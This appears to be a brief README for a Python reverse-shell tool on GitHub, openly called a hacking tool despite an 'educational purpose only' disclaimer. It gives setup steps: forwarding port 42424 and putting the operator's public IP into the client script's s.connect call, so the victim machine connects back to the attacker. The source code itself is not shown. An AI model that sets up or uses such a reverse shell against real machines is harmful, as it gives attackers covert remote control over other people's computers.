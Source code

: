 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

How to use:
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
on the client sciprt - make sure that you have you public IP address there on s.connect((%PUBLIC IP ADDRESS%, 42424))